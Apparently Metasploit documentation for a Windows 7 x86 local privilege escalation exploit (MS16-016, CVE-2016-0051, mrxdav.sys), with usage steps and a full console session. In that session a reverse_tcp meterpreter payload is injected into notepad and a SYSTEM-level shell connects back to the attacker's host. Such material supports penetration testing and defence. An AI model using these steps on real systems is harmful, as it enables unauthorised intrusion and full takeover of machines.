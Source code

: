 ## Intro

This module exploits a null pointer dereference vulnerability present in the mrxdav.sys kernel driver on Windows 7 x86.  The vulnerability is described by MS16-016 and CVE-2016-0051.  The module allows the user to spawn a new payload, such as meterpreter, on the target system with elevated privileges (NT AUTHORITY\SYSTEM)

## Usage

You'll first need to obtain a session on the target system.  Next, once the module is loaded, one simply needs to set the ```payload``` and ```session``` options.  From here, running the module will result in the payload being executed with system level privileges.

An example session follows:


```
meterpreter > background
[*] Backgrounding session 5...
msf exploit(handler) > use exploits/windows/local/ms16_016_webdav
msf exploit(ms16_016_webdav) > set session 5
session => 5
msf exploit(ms16_016_webdav) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms16_016_webdav) > set lport 4567
lport => 4567
msf exploit(ms16_016_webdav) > set lhost 192.168.1.203
lhost => 192.168.1.203
msf exploit(ms16_016_webdav) > run

[*] Started reverse TCP handler on 192.168.1.203:4567
[*] Launching notepad to host the exploit...
[+] Process 3204 launched.
[*] Reflectively injecting the exploit DLL into 3204...
[*] Exploit injected ... injecting payload into 3204...
[*] Sending stage (957999 bytes) to 192.168.1.221
[*] Done.  Verify privileges manually or use 'getuid' if using meterpreter to verify exploitation.
[*] Meterpreter session 12 opened (192.168.1.203:4567 -> 192.168.1.221:49266) at 2016-07-05 22:07:34 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
